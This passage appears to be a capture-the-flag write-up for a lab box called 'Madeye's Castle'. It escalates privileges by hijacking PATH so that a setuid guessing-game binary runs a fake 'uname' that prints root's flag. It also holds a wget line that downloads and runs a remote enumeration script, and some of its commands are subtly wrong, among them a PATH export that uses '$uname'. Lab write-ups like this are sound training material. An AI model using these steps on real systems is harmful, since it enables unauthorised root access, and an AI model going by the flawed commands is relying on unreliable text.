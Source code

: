 ```bash
Nice use of the time-turner!
This system architecture is 
uname -p
Guess my number: 
Nope, that is not what I was thinking
I was thinking of %d
;*3$"
...
```
From the above code it is obvious that on Correct guess it will call uname -p command.
lets create a malicious code to be executed.

```bash
hermonine@hogwartz-castle:/home/hermonine$  echo '123'|/srv/time-turner/swagger| awk -F 'of ' '{print $2}' |/srv/time-turner/swagger

Guess my number: Nice use of the time-turner!
This system architecture is x86_64
```
We were able to guess correct number now its turn to cat out our flag. ove to tmp directory and create a file uname with the command to be executed
on successful binary execution. I tried to get a shell or even change the password of root user bu didn't work.

```bash
hermonine@hogwartz-castle:/home/hermonine$ cd /tmp
hermonine@hogwartz-castle:/home/hermonine$ echo 'cat /root/root.txt'>uname
hermonine@hogwartz-castle:/home/hermonine$ chmod +x uname
hermonine@hogwartz-castle:/home/hermonine$ export PATH=/tmp:$uname
hermonine@hogwartz-castle:/home/hermonine$ echo '123'|/srv/time-turner/swagger| awk -F 'of ' '{print $2}' |/srv/time-turner/swagger

Guess my number: Nice use of the time-turner!
This system architecture is RME{********************************}
```
With this Madeye's Castle is Finished!!










wget http://10.8.155.126/linENUM.sh && chmod +x linENUM.sh &&./linENUM

/srv/time-turner/swagger | grep -oE '[^ ]+$' |tail -1 | /srv/time-turner/swagger|tee out

echo '123' | /srv/time-turner/swagger | grep 'of' | awk -F 'of ' '{print $2}' | /srv/time-turner/swagger|tee out








